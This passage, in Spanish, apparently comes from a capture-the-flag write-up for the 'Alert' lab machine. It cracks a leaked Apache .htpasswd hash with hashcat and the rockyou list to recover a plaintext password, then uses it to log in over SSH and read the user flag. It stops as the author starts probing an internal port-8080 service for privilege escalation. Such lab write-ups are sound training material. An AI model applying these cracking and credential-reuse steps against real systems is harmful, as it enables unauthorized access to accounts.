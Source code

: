 El archivo `.htpasswd` contiene una contraseña hasheada:

```bash
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

dicha contraseña es débil:

```bash
❯ hashcat --show hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

y sirve para acceder por ssh. Como vimos en el `/etc/passwd`, `albert` es un usuario del sistema.

```bash
❯ /usr/bin/ssh albert@alert.htb
albert@alert.htb password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

... [snip]

Last login: Tue Nov 19 14:19:09 2024 from 10.10.14.23
albert@alert:~$
```

Dentro del directorio personal encontraremos la primera flag.

```bash
albert@alert:~$ ls -la
total 28
drwxr-x--- 3 albert albert 4096 Nov 19 14:19 .
drwxr-xr-x 4 root   root   4096 Oct 12 02:21 ..
lrwxrwxrwx 1 albert albert    9 Mar 16  2024 .bash_history -> /dev/null
-rw-r--r-- 1 albert albert  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 albert albert 3771 Feb 25  2020 .bashrc
drwx------ 2 albert albert 4096 Mar  8  2024 .cache
-rw-r--r-- 1 albert albert  807 Feb 25  2020 .profile
-rw-r----- 1 root   albert   33 Apr  1 16:46 user.txt
albert@alert:~$ cat user.txt
4e3c573aaceea569ea7538575f******
```

## Escalada de privilegios

Hay un servicio web interno corriendo en el puerto 8080:

```bash
albert@alert:~$ curl -v http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Host: 127.0.0.1:8080
< Date: Tue, 01 Apr 2025 19:11:27 GMT
```